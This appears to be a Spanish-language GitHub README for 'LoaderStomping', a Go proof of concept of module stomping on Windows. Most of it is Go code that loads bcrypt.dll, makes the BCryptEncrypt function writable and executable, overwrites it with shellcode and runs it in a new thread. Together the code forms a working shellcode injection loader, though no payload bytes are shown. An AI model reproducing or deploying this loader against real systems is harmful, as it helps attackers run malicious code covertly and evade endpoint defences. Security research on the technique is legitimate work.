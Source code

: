 # LoaderStomping

<p align="center">
  <img src="assets/logo.jpg">

</p>

## Introducción

LoaderStomping es un proyecto de prueba de concepto que demuestra la técnica de module stomping para la inyección de código en una función específica de una DLL de Windows (bcrypt.dll) usando Go. Este proyecto aprovecha las llamadas a la API de Windows a bajo nivel para cambiar la protección de memoria, escribir shellcode y ejecutarlo creando un nuevo hilo.
## Cargando la Librería

El siguiente código carga la librería bcrypt.dll:

```
lib, err := syscall.LoadLibrary("C:\\Windows\\System32\\bcrypt.dll")
if err != nil {
fmt.Println("Failed to load library:", err)
return
}
fmt.Printf("Address of library bcrypt.dll : 0x%X\n", uintptr(lib))
```

## Obteniendo la Dirección de la Función

Se obtiene la dirección de la función BCryptEncrypt:

```
funcAddress, err := syscall.GetProcAddress(lib, "BCryptEncrypt")
if err != nil {
log.Fatal("Failed to get function address:", err)
}
fmt.Printf("Address of BCryptEncrypt function : 0x%X\n", funcAddress)
```

## Cambiando la Protección de Memoria

Se cambia la protección de memoria antes de escribir el shellcode:

```
var oldProtect uint32

ret, _, err := virtualProtect.Call(funcAddress, uintptr(len(shellcode)), syscall.PAGE_EXECUTE_READWRITE, uintptr(unsafe.Pointer(&oldProtect)))
if ret == 0 {
fmt.Println(colorRed, "Failed to change memory protection:", err, colorReset)
return
}
fmt.Println(colorGreen, "Memory protection changed successfully.", colorReset)
fmt.Printf("Old protection: 0x%X\n", oldProtect)
printShellcode(shellcode)
```



## Escribiendo el Shellcode

El shellcode se escribe en la función BCryptEncrypt:

```
copyMemory(funcAddress, shellcode)
fmt.Println(colorGreen, "Shellcode written to BCryptEncrypt function successfully.", colorReset)
```


## Restaurando la Protección de Memoria

La protección de memoria se restaura a su estado original:
```
ret, _, err = virtualProtect.Call(funcAddress, uintptr(len(shellcode)), uintptr(oldProtect), uintptr(unsafe.Pointer(&oldProtect)))
if ret == 0 {
fmt.Println(colorRed, "Failed to restore memory protection:", err, colorReset)
return
}
fmt.Println(colorGreen, "Memory protection restored successfully.", colorReset)
fmt.Printf("Restored protection: 0x%X\n", oldProtect)
```

## Creando un Nuevo Hilo

Se crea un nuevo hilo para ejecutar el shellcode:
```
threadHandle, _, err := createThread.Call(0, uintptr(len(shellcode)), funcAddress, 0, 0, 0)
if threadHandle == 0 {
fmt.Println(colorRed, "Failed to create thread:", err, colorReset)
return
}
fmt.Println(colorGreen, "Thread created successfully.", colorReset)
fmt.Printf("Thread handle: 0x%X\n", threadHandle)
fmt.Println(colorYellow, "Inyect Success [+]", colorReset)
fmt.Scanln()
```
# Funciones Auxiliares
## copyMemory

Esta función copia el shellcode en la memoria destino:

```
func copyMemory(dest uintptr, src []byte) {
for i, b := range src {
*(*byte)(unsafe.Pointer(dest + uintptr(i))) = b
}
}

```


## printShellcode

Esta función imprime el shellcode en formato hexadecimal:

```
func printShellcode(shellcode []byte) {
	fmt.Println("Shellcode:")
	for i := 0; i < len(shellcode); i += 16 {
		end := i + 16
		if end > len(shellcode) {
			end = len(shellcode)
		}
		offset := fmt.Sprintf("%08X", i)
		bytes := hex.EncodeToString(shellcode[i:end])
		fmt.Printf("%s  %s\n", offset, bytes)
	}
}




```

<img src="assets/img.png">